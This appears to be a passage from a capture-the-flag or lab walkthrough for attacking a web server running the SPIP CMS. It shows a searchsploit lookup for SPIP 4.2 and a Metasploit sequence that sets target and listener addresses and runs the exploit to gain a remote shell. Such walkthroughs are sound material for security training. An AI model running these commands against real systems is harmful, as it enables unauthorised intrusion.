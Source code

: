 - **Login Page:**  
  ![Login Page](../images/login_page.png)

---

### 🔍 Exploit Search

We identified the CMS as **SPIP**.

**Command:**
```bash
searchsploit spip 4.2
```
![Searchsploit Results](../images/searchploit.png)

The exploit is also available in Metasploit.

**Metasploit Commands:**
```bash
search spip 4.2
set targeturi /spip
set lhost <YOUR_IP>
set rhost <TARGET_IP>
exploit
```
![Metasploit Search](../images/exploit_find.png)